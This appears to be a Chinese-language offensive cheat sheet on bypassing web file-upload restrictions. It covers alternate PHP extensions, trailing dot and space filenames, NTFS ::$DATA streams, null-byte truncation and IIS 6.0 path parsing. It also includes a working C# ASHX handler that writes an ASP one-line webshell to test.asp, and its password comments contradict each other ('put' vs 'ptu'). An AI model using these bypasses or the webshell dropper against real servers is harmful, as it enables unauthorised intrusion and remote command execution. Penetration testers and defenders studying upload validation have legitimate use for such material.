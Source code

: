#### 文件扩展名绕过

```
Php除了可以解析php后缀 还可以解析php2.php3，php4 后缀 
```

#### ashx上传绕过

```
cer,asa,cdx等等无法使用时候。
解析后就会生成一个test.asp的马，你就可以连接这个test.asp  密码为:put
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {

```
public void ProcessRequest (HttpContext context) {
    context.Response.ContentType = "text/plain";

    //这里会在目录下生成一个test.asp的文件
    StreamWriter file1= File.CreateText(context.Server.MapPath("test.asp"));
    //这里是写入一句话木马   密码是：ptu
    file1.Write("&lt;%response.clear:execute request("put"):response.End%&gt;");
    file1.Flush();
    file1.Close();       
}
public bool IsReusable {
    get {
        return false;
    }
} 
``` `}` 
```

#### 特殊文件名绕过

```
比如发送的 http包里把文件名改成 test.asp. 或 test.asp_(下划线为空格)，这种命名方式
在windows系统里是不被允许的，所以需要在 burp之类里进行修改，然后绕过验证后，会
被windows系统自动去掉后面的点和空格，但要注意Unix/Linux系统没有这个特性。 
```

#### Windows流特性绕过

```
php在windows的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件名。 
```

### 白名单后缀绕过

#### 00截断绕过上传

```
php .jpg   空格二进制20改为00
IIS 6.0 目录路径检测解析绕过
上传路径改为
XXX/1.asp/ 
```
